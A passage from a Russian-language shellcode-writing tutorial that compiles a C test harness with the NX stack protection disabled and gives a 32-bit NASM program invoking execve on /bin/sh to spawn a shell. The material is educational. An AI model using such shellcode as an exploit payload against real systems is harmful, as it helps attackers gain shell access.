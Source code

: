 Теперь компилируем и запускаем:
```bash
gcc -z execstack -m32 -o run run.c
./run
echo $?
```

![example1 shellcode](./images/12/2021-10-11_11-01.png){width="80%"}    

> `-z execstack` отключает защиту NX, чтобы стек был исполняемым.

Наша программа вернула 0 вместо 1, значит, shellcode сработал.     

### Пример 2. Запуск оболочки Linux.

Теперь напишем простой shellcode, который порождает оболочку (`example2.asm`):       
```nasm
; example2.asm - запуск оболочки Linux.
; автор @cocomelonc
; nasm -f elf32 -o example2.o example2.asm
; ld -m elf_i386 -o example2 example2.o && ./example2
; 32-битный Linux

section .data
  msg: db '/bin/sh'

section .bss

section .text
  global _start   ; точка входа для линковщика

_start:           ; точка входа

  ; xoring любого значения с самим собой обнуляет его:
  xor eax, eax    ; обнуляем eax
  xor ebx, ebx    ; обнуляем ebx
  xor ecx, ecx    ; обнуляем ecx
  xor edx, edx    ; обнуляем edx

  mov al, 0xb     ; mov eax, 11: execve
  mov ebx, msg    ; загружаем указатель на строку в ebx
  int 0x80        ; системный вызов

  ; обычный выход
  mov al, 1       ; системный вызов sys_exit 
                  ; (mov eax, 1) без 
                  ; нулевых байтов
  xor ebx, ebx    ; без ошибок (mov ebx, 0)
  int 0x80        ; вызываем sys_exit
```
